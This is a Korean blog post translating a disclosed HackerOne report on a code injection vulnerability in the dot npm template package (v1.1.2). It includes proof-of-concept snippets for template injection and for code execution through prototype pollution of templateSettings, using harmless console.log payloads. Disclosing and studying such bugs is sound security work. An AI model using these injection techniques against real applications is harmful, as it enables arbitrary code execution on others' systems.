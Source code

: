 ```yaml
---
layout: post
title: dot 패키지의 코드 인젝션 취약점
categories: PoC
tags: [Bugbounty, CodeInjection, Nodejs, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : Cristian-Alexandru Staicu (cris_semmle)] https://hackerone.com/reports/390929

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 3일 오후 7시 16분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 소스코드는 dot의 자산입니다. 취약점의 종류는 Code Injection이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 7.4/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
저는 dot의 코드 인젝션 취약점에 대해 알리고 싶습니다. 이 취약점은 공격자의 임의 JS코드를 실행시킬 수 있게 해주며 특히, 프로토타입 폴루션 공격과 결합할 때 더 심각한 결과를 초래합니다.

# 모듈
* 모듈 이름: dot
* 버전: 1.1.2
* npm 페이지: https://www.npmjs.com/package/dot
  
## 모듈 설명
V8과 Node.js에서의 퍼포먼스가 강조된 빠르고 간결한 자바스크립트 템플릿 함수를 위해 만들어졌습니다. 이 모듈은 Node.js와 브라우저에서의 좋은 퍼포먼스를 보여줍니다.

doT.js는 디팬던시가 없으며 빠르고 경량입니다

## 모듈 스탯
지난주에 76,838 다운로드 횟수를 기록했습니다.
- - -
# 취약점
## 취약점 설명
dot은 템플릿을 컴파일하기 위해 Function()을 씁니다. 만약 해커가 템플릿을 통제할 수 있다거나 Object.prototype의 값을 통제할 수 있다면 이 부분이 공격당할 수 있습니다.

a) 기본적인 공격 벡터
{% highlight html %}
var doT = require("dot");
var tempFn = doT.template("<h1>Here is a sample template " +
    "{{=console.log(23)}}</h1>");
tempFn({})
{% endhighlight %}


b) 프로토타입 폴루션 공격과 결합할 때
* “resources” 라는 이름의 폴더를 생성한 뒤 다음과 같은 내용을 담고있는 “mytemplate.dot”이라는 파일을 생성합니다 :
{% highlight html %}
html <h1>Here is a sample template</h1>
{% endhighlight %}

* resources 폴더를 포함하는 해당 폴더에서, 다음과 같은 js파일을 생성하고 실행합니다 :
{% highlight html %}
js var doT = require("dot"); // prototype pollution attack vector 
Object.prototype.templateSettings = {varname:"a,b,c,d,x=console.log(25)"}; // benign looking template compilation + application 
var dots = require("dot").process({path: "./resources"}); dots.mytemplate();
{% endhighlight %}
컴파일된 템플릿과 안전해보이는 애플리케이션으로 보인다 할지라도 프로토타입 폴루션 공격 때문에 해커는 임의의 코드를 실행할 수 있습니다.  
- - -
# 패치
Function() call (함수 호출) 제거. N/A(해당 없음)  
- - -
# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* MacOs
* NodeJS v8.12.0
* npm 6.4.1

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No
  
# 영향
만약 해커가 템플릿을 통제할 수 있거나 만약 Object.prototype에 임의의 것들을 설정할 수 있다면 코드 인젝션이나 RCE(Remote Code Execution)을 수행할 수 있습니다.  
runtime computed values와 함께 Function()을 사용하는 것은 거의 안전하지 않습니다.
